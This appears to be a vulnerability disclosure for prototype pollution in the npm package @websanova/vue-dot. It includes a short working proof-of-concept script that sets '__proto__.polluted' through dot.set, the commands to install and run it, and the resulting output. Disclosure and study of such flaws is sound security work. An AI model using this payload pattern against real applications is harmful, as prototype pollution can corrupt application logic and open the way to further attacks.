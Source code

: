 # Description

Prototype Pollution in @websanova/vue-dot

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var dot = require('@websanova/vue-dot');
var obj = {}
console.log("Before : " + {}.polluted);
dot.set("__proto__.polluted","Yes! Its Polluted",obj);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i @websanova/vue-dot # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
